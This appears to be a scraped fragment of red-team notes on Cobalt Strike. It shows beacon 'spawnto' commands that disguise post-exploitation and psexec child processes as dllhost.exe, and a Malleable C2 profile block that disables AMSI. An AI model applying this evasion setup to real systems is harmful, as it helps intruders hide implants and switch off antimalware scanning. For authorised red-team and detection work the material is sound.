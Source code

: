 - Change the process for post-ex commands (the sysnative and syswow64 paths should be used rather than system32)

```
beacon> spawnto x64 %windir%\sysnative\dllhost.exe
beacon> spawnto x86 %windir%\syswow64\dllhost.exe
```

*If we then use powerpick to get its own process name, it will return dllhost.*

- Change the process for psexec (the sysnative and syswow64 paths should be used rather than system32)

```
beacon> ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe
```

- Malleable C2

```
post-ex {
        set amsi_disable "true";
        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```
